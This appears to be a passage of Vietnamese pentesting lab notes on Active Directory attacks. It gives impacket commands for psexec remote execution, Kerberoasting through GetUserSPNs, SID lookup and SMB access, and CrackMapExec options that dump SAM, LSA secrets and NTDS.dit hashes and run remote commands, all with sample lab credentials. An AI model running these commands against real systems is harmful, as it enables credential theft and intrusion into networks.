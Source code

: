 > [!important]
> 
> ```Bash
> impacket-psexec.py spookysec.local/Administrator:Pass123!@$target
> ```
---
## Kerberos
> Tìm SPN để lấy **TGS** hash
```Bash
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASS> -dc-ip <DC_IP> -request
```
> [!important]
> 
> ```Bash
> impacket-GetUserSPNs test.local/john.doe:Password123 -dc-ip 10.10.10.1 -request
> ```
> 
> ```Bash
> impacket-GetUserSPNs -dc-ip $target 'spookysec.local/svc-admin:management2005' -request
> ```
---
## SMB / LDAP
```Bash
impacket-lookupsid <DOMAIN>/<USER>:<PASS>@<IP>
```
```Bash
impacket-smbclient <DOMAIN>/<USER>:<PASS>@<IP>
```
---
# \#CrackMapExec (CME)
```Bash
crackmapexec smb <target> -u <username> -p <password> <options>
\#or
cme smb <target> -u <username> -p <password> <options>
```
> [!important]
> 
> ```Bash
> crackmapexec smb 10.10.121.48 -u 'svc-admin' -p 'management2005' --shares
> ```
- **Các options**:
    - --shares : Liệt kê các thư mục chia sẻ SMB mà **user** có quyền truy cập
    - --users : Liệt kê tất cả các **user** trong domain hoặc trên máy local mà **user hiện tại** có quyền query
    - --groups : Liệt kê các **groups** trên máy hoặc trong domain
    - --rid-brute : bruteforce RID (Relative Identifier) để liệt kê **toàn bộ** tài khoản **user** và **group** trên máy hoặc domain
    - --sessions : Hiển thị **phiên đăng nhập SMB hiện tại** trên mục tiêu (phát hiện user cao cấp đang đăng nhập, có thể thực hiện lateral movement)
    - --loggedon-users : Liệt kê tất cả các **user** đang đăng nhập vào máy mục tiêu (local + domain)
    - --sam : Dump cơ sở dữ liệu **SAM** (Security Account Manager) chứa hash của local accounts
    - --lsa : Dump thông tin từ **LSA Secrets** (Local Security Authority), có thể chứa plaintext password
    - --ntds : Dump **NTDS.dit** (CSDL chứa hash tất cả tài khoản domain)
    - --exec-method : Chỉ định **phương thức** thực thi lệnh từ xa qua SMB (mặc định là smbexec, ngoài ra có atexec, wmiexec)
    - -x : Thực thi lệnh từ xa, **trả về output**
    - -X : Thực thi lệnh từ xa **không trả về output**
---